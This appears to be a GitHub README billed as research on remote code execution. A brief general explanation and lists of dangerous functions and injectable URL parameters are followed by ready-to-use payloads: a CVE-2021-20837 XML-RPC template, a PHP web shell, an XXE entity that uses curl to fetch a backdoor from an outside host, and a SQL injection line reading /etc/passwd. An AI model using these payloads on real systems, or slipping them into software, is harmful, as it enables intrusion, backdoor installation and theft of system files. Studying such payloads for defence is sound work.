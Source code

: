 # RCE-reserch
Article about RCE vulnerability
RCE (Remote Code Execution) vulnerability is the possibility of executing malicious code or controlling and executing code remotely. This vulnerability is related to a security failure in a software or system. By using RCE, an attacker can gain complete control over the victim's system and perform various operations, obtain all kinds of sensitive information, and in some cases, target other attacks on other components and related networks.
System functions can be the main cause of RCE vulnerability. System functions are functions that run at the operating system level and allow a software program to communicate with system-dependent kernel parts.

If these functions are used unprotected and improperly, they allow attackers to execute their malicious code at the system level and obtain the execution of command line commands or perform other malicious activities. In other words, these are entry points for RCE attacks.

Some well-known functions that can create RCE risk potential include:

system()
execute()
evaluate()
passthru()
shell_exec()
open()

Parameters that may have an rce vulnerability
?cmd=
?exec=
?command=
?execute=
?ping=
?query=
?jump=
?code=
?reg=
?do=
?func=
?arg=
?option=
?load=
?process=
?step=
?read=
?function=
?req=
?feature=
?exe=
?module=
?payload=
?run=
?print=

vulnrability 


xml-rpc to rce

CVE-2021-20837 

    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
            #{base64_cmd}
            </base64>
          </value>
        </param>
      </params>
    </methodCall>


File upload to RCE

    <?php echo shell_exec($_GET['e'].' 2>&1'); ?>

XXE to RCE 

    <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
     <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
     ]>
     <root>
    <name>Joe</name>
    <tel>ufgh</tel>
    <email>START_&file;_END</email>
    <password>kjh</password>
    </root>

SQLI to RCE

    UNION SELECT load_file(' /etc/passwd ')    
